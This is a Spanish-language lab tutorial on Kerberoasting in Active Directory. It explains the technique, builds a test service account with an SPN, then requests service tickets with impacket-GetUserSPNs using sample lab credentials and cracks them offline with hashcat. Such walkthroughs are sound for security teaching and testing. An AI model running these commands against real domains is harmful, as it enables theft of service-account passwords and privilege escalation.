





# Kerberoasting

# ¿Cómo surge un ataque Kerberoating?

---

En los entornos de Active Directory tenemos multiples objetos usuarios, grupos, etc.. Exiten entre los usuarios cuentas que se asocian a servicios, algunas como krbtgt vienen por defecto cuando instalamos Active Directory. Estas son cuentas de usuarios como cualquier otra con la peculiaridad de que están asociadas a un **SPN** (**Service Principal Name**) y no son usadas por personas para acceder al sistema sino que el mismo sistema las utiliza internamente para gestionar servicios.

Ahora bien ¿Qué es un ataque Kerberoasting y qué tiene que ver con esto que les he explicado?, un ataque Kerberoasting es un tipo de técnica que abusa de la funcionadidad de Kerberos para capturar el **Ticket Granting Service** **(TGS)** y crackearlo de manera offline, recordando este ticket está cifrado con la contraseña del servicio que se solicita, es decir, la contraseña de la cuenta que gestiona ese servicio.

El ataque se lleva a cabo durante el envío del `KRB_TGS_REP` que va desde el KDC al cliente.

](images/Untitled.png)

Fuente: [https://blog.netwrix.com/what-is-kerberos/](https://blog.netwrix.com/what-is-kerberos/)

> **Tomemos en cuenta lo siguiente:**

- Las cuentas destinadas para estos servicios suelen tener contraseñas débiles al no ser accedidas constantemente por algún usuario, y para recordar con facilidad se suele evitar el uso de contraseñas muy robustas, por ende son fáciles de crackear.
- Estas cuentas suelen ser administradores para poder ejecutar dichos servicios y tareas administrativas.
> 

Viendolo así, podemos darnos cuenta de que es un ataque sencillo y potente a la vez, con la condición de que **debemos tener previo acceso a una cuenta de usuario del dominio.**

# Preparación de entorno

---

Primero vamos a crear una cuenta de usuario que será la encargada gestionar el servicio. 

- **Por medio al Powershell.**

```powershell
New-ADUser -Name "NOMBRE COMPLETO DE LA PERSONA" -GivenName "NOMBRE DE LA PERSONA" -SamAccountName "NOMBRE DE CUENTA", -UserPrincipalName "NOMBRE_DE_CUENTA@DOMINO" -Description "DESCRIPCION OPCIONAL" -AccountPassword(Get-Host -AsSecureString "Inserte la contraseña") -Enable $true
```



En caso de querer borrar la cuenta puedes usar.

```powershell
Remove-ADUser -Identity "NOMBRE COMPLETO DE LA PERSONA"
```

- **Por medio a interfaz gráfica.**

Nos dirigimos a **Administrador del servidor > Herramientas > Usuarios y equipos de Active Directory**, damos clic derecho sobre **Users**, luego a **Nuevo > Usuario**.   



Luego hacemos clic en el icono de usuario en la barra superior. 



Indicamos la información correspondiente y damos clic en siguiente.


Luego colocamos una contraseña, marcamos las opciones **El usuario no puede cambiar la contraseña** y **La contraseña nunca expira**. Por último, damos clic en **Siguiente**.


Y finalizamos.


Como podemos ver, el usuario se ha creado satisfactoriamente.



Luego asociaremos la cuenta a un SPN (No importa si existe un servicio en ejecución o no). El SERVICE_NAME y el SERVER_MACHINE_NAME pueden ser cualquiera pero el USER debe ser el usuario que creamos anteriormente.

```powershell
setspn -S SERVICE_NAME/SERVER_MACHINE_NAME USER
```



# Explotación

---

Para solicitar el ticket TGS a las cuentas que tengan un SPN asociado vamos a utilizar un módulo de impacket llamado `GetUserSPNs`, el comando es el siguiente:

```powershell
impacket-GetUserSPNs DOMAIN/USER:PASSWORD -request
```

Sustituimos **DOMAIN** por el nombre del dominio, **USER** por el nombre del usuario previamente comprometido y **PASSWORD** por la contraseña del usuario. 

```powershell
impacket-GetUserSPNs cisco.local/ketti.andrea:K4ndrea -request
```

Y cómo podemos ver hemos obtenido el hash de la contraseña de este usuario.


Ahora **¡¡CRACKEEMOSLO!!**

# Crackeo de las contraseñas

---

Utilizaremos hashcat para crackear hash, el módulo para este hash del tipo Kerberos es el `13100`. Sustituimos HASH_FILE por la ruta de nuestro archivo hash y el DICTIONARY por la ruta del diccionario que vamos a usar para crackear el hash.

```bash
hashcat -a 0 -m 13100 HASH_FILE DICTIONARY -O
```


